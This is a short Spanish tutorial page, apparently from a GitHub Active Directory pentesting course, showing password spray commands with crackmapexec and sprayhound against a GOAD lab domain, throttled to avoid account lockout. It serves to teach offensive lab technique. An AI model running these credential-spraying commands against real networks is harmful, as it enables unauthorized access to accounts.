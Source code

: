 # Técnica de password spray

```Bash
poetry run crackmapexec smb <direccion ip> -u <txt de lista de usuarios> -p <txt de lista de contraseñas>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/password_spray/vid.gif?raw=true "Password spray con crackmapexec")

```Bash
sprayhound -U <txt de lista de ususarios> <nombre dominio completo> -dc <direccion ip> --lower

# 2 intentos fallidos para no bloquear las cuentas
sprayhound -U GOAD/users.txt -d north.sevenkingdoms.local -dc 192.168.56.11 -lu hodor -lp hodor --lower -t 2
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/password_spray/vid2.gif?raw=true "Password spray con sprayhound")
